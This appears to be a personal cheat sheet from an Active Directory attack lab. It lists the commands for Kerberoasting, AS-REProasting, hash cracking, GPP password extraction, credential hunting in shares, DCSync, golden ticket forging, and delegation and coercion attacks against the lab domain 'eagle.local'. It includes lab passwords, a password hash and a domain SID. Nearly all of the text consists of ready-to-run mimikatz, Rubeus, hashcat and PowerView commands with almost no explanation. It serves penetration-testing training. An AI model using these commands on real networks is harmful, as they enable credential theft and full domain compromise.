 



# Introduction

## Connect to WS001 via RDP

```
xfreerdp /u:eagle\\bob /p:Slavi123 /v:TARGET_IP /dynamic-resolution
```
#xfreerdp 
## Connect to Kali via SSH

```
 ssh kali@TARGET_IP
```
#ssh 
## Moving files between WS001 and your Linux attacking machine

```
smbclient \\\\TARGET_IP\\Share -U eagle/administrator%Slavi123
```
#smbclient 

# kerberoasting

```c
PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt
```
#rubeus #powershell 

```
$ hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
```
#hashcat 


```
$ sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
```
#john 


# AS-REProasting

```C
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt
```
#rubeus #powershell 
For `hashcat` to be able to recognize the hash, we need to edit it by adding `23$` after `$krb5asrep$`:

```shell-session
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```



```
$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force
```
#hashcat 



# GPP Passwords

	Used to bypass powershell script execution policy.
```C
PS C:\Users\bob\Downloads> Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```
#powershell #set-executionpolicy


```C
PS C:\Users\bob\Downloads> Import-Module .\Get-GPPPassword.ps1
PS C:\Users\bob\Downloads> Get-GPPPassword
```
#powershell #import-module #gppassword



# Credentials in Shares

	Used to load the `PowerView.ps1` module into memory
```
Import-Module .\PowerView.ps1
```
#powershell  #powerview

		This function allows specifying that default shares should be filtered out (such as `c$` and `IPC$`) and also check if the invoking user has access to the rest of the shares it finds.
```
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
```
#powershell #shares

```
cd \\Server01.eagle.local\dev$
```


```c
findstr /m /s /i "pass" *.bat
```
#findstr 


# Credentials in Object Properties

	Script to look for specific terms in the `Description` and `Info` fields of an AD object
```
.\SearchUser.ps1 -Terms pass
```
#powershell #searchuser



# DCSync



```
runas /user:eagle\rocky cmd.exe
```
#runas

```
mimikatz.exe lsadump::dcsync /domain:eagle.local /user:Administrator
```
#mimikatz #dcsync #lsa 



# Golden Ticket


```
mimikatz.exe lsadump::dcsync /domain:eagle.local /user:krbtgt
```
#mimikatz #lsa #dcsync 


```powershell-session
 powershell -exec bypass
```
#powershell #bypass

```
. .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
```
#powerview 


```
mimikatz.exe 
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```
#mimikatz #golden_ticket 


```
klist
```
#klist

```c
C:\Mimikatz>dir \\dc1\c$
```
#dir

# Kerberos Constrained Delegation

```c
Get-NetUser -TrustedToAuth
```
#powerview 

```c
.\Rubeus.exe hash /password:Slavi123
```
#rebeus 

```c
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```
#rebeus 

```c
klist
```
#klist 

```c
PS C:\Users\bob\Downloads> Enter-PSSession dc1
```





# Coercing Attacks & Unconstrained Delegation


```c
Get-NetComputer -Unconstrained | select samaccountname
```
#powerview 

```c
.\Rubeus.exe monitor /interval:1
```
#rebeus 
```c
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
```
#rebeus 
```
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```
#coercer

```c
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```
#mimikatz 

